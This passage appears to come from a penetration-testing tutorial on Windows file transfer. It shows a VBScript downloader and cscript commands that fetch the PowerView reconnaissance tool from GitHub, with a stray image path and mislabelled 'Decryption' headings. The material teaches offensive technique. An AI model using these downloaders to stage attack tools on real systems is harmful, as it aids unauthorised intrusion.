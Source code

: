 It can be executed as follows.

Decryption

```
PS C:\htb> cscript /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

```
VBScript

The following VBScript, based on this post can be used.
Code: vbscript

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with

It can be executed as follows.
Decryption

PS C:\htb> cscript /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1

```

